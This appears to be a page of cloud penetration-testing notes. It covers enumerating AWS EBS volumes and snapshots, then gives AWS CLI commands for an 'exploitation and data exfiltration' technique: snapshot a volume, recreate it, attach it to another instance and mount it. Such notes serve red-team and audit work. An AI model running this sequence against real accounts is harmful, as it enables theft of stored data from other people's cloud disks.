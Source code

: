 ### Enumerating EBS volumes

```
aws ec2 describe-volumes
```

* If the volume is available, it can be attached to an EC2 instance
* Check if the EBS is encrypted

### Enumerating Snapshots

```
aws ec2 describe-snapshots --owner-ids self 
```

* Also check if the snapshot is encrypted

## Exploitation & Data Exfiltration
* Create a snapshot of an EC2 instance, create a volume from snapshot and attach to other EC2 instance. 
* User need to have IAM permissions on EC2
* Maybe we don't have the right to access the instance but have rights to create a snapshot and attach it to another machine.

### Creating a snapshot of a specified volume

```
aws ec2 create-snapshot --volume volumeID --description "Example" --profile profile_name
```

### Listing snapshots

```
aws ec2 describe-snapshots
```

### Creating a volume from a snasphot

```
aws ec2 create-volume --snapshot-id ID --availability-zone ZONE --profile profile_name
```

* The volume needs to be in the same availability zone as the instance we have access

### Attaching the volume to an instance

```
aws ec2 attach-volume --volume-id VolumeID --instance-id InstanceID --device /dev/sdfd -> Can be other value
```

### Mounting the volume

```
sudo mount /dev/sdfd /directory
```
